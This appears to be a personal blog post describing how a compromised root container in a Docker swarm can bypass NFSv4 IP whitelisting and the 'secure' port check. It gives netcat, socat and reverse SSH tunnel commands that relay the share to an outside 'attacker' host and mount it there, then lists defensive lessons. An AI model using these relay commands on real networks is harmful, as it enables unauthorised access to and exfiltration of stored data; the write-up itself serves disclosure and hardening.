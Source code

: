 ```yaml
---
title: "Relaying NFS4 from inside a container"
date: 2025-07-19
tags:
- containers
- pentest
- network
featuredImage: /images/rohan-ZoXCoH7tja0-unsplash.jpg
---
```


## Introduction
I recently set-up a **docker swarm** and was so excited! I absolutely do not need it, but you know, one day I might (yea sure).

The first thing I learnt was that to operate a swarm you needed a sort of network storage or a highly available storage. NFS4 was the winner for me and a NFS VM was created and shares were made for hosting docker volumes, what could go wrong?!

Well, at first everything seemed fine, but as some of you may know, setting up auth on NFS is a bit painful, at least for me it is. By default there is no authentication and access control is demanded to IP whitelisting. Okay cool.

I of course locked in the subnet of the swarm, so absolutely no one outside of it could access the shares.. yeah.. **I also enabled the `secure` option on NFS**, that demands the source port of the TCP connection to be lower than 1024, so it needs to be originated from the root user, which is kind of smart, I wouldn't never have thought about this.

I deployed some containers and played a bit with everything for a few days to find the perfect setup and then I was hit with a existential doubt: **What if a container's security gets compromised?**

I mean, I am okay with the fact that the container can access his own data, but **what if the container is able to access the whole NFS share**? Naahhh I must be missing something.. but let's test it anyway..

I simulate an RCE on a container that gets run as root (a lot of them are) and download netcat. I launch it to connect directly to the NFS share with a low port.. and guess what? It works.

`nc -v -p 532 nfs-share-ip 2049`

![scared cat](/images/scared_cat.webp)

Okay now what? I mean **it should not be possible to mount the shares locally**, and in fact it's not, as there is the need of a privileged container.. ***but*** the TCP connection is open with the lower port and I cannot sleep at night by knowing that **the connection can be relayed somewhere** to be then mounted on a VM that has the `nfs` kernel module and all that it's needed to mount it..

I do a bit of research and decide to use `socat` to listen to port 2049 INSIDE the container while mapping it to the remote 2049 port of the NFS share, by specifying a source port that it's lower than 1024:

`socat TCP-LISTEN:2049,fork,reuseaddr TCP:NFSSERVER:2049,sourceport=532`

![donald duck gulp](/images/donald-duck-gulp.gif)

I now download `ssh` and launch: `ssh user@attacker -R 2049:127.0.0.1:2049`, with this command the **local port 2049 of the container gets mapped on the remote host** I am connecting to: `attacker`.

From the `attacker` host I then `sudo su` and issue `mount -t nfs4 127.0.0.1:/stuff /mnt` and... **it works**.

![crying dog](/images/crying_dog.gif)

I successfully mounted a share that I shouldn't have access to, on a host that is not on the subnet.

This is what I see from the NFS host:

`tcp        0      0 x.x.x.x:2049     y.y.y.y:532      ESTABLISHED`

## Diagram of what happens

![diagram](/images/nfs_relaying_diagram.png)

## Lessons learned

1. **Running containers as root**, even if unprivileged, **may be dangerous**.
2. If you have to run software as root inside the container, at least **make them use a "internal" connection** on docker, so they cannot contact outside IP addresses.
3. If you can't limit to user root and internal connection, absolutely **deny it the possibility to contact the TCP port of the NFS share**.


## Conclusion

What has been discovered is theoretical hot water, I perfectly know it, but **I couldn't find any source on internet regarding the information gathering of NFS4 shares** and also I think I am not the only one that has a similar setup.

Before relaying the connection with `socat` I tried all `nmap` scripts, but found out that they work only for NFS 3 and lower, as they make use of the `rpcbind` service. I found no tool/guide to gather information regarding NFS 4 shares, so I decided to write this mini guide.

Hope it's appreciated.
